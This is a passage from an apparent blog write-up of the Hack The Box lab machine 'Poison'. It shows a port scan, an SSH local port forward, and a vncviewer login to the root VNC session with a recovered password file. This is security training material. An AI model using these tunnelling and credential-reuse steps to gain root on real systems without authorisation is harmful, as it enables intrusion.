 Reason: 54549 no-responses and 10984 resets

Some closed ports may be reported as filtered due to --defeat-rst-ratelimit

PORT STATE SERVICE REASON

22/tcp open ssh syn-ack ttl 63

80/tcp open http syn-ack ttl 63

Nmap done: 1 IP address (1 host up) scanned in 55.50 seconds</pre>
Okay so i figured i need to use vncviewer to log on to the root's vnc account using the secret password. I couldnt do this from charix ssh as I got this error:
<pre>charix@Poison:~ % vncviewer

vncviewer: Command not found.

charix@Poison:~ %</pre>
I needed to use tunneling of some sort. I found <a href="https://bitvijays.github.io/LFC-VulnerableMachines.html#from-nothing-to-unprivileged-shell" target="_blank" rel="noopener">this blog</a> and browsed to Local Port Forwarding.
<pre>ssh sshserver -L &lt;local port to listen&gt;:&lt;remote host&gt;:&lt;remote port&gt;</pre>
<pre>ssh -L 5901:localhost:5901 charix@10.10.10.84</pre>
I am linking the port 5901 on my machine to port 5901 on the machine I want to tunnel to. I am logging in as charix through ssh. So if a service connects to port 5901 on my machine it will be redirected to ssh  to 10.10.10.84 using charix's username

On my kali machine i ran this command using the secret i got earlier.
<pre>[root:~/Desktop/poison]# vncviewer localhost:5901 -passwd secret

Connected to RFB server, using protocol version 3.8

Enabling TightVNC protocol extensions

Performing standard VNC authentication

Authentication successful

Desktop name "root's X desktop (Poison:1)"

VNC server default format:

 32 bits per pixel.

 Least significant byte first in each pixel.

 True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0

Using default colormap which is TrueColor. Pixel format:

 32 bits per pixel.

 Least significant byte first in each pixel.

 True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0

Same machine: preferring raw encoding</pre>
<img class="alignnone size-full wp-image-42" src="http://offsecnewbie.com/wp-content/uploads/2018/04/root.png" alt="root!" width="1097" height="637" />

I managed to get in as root. It wasn't easy to copy the password so I started a python http server to get the flag.
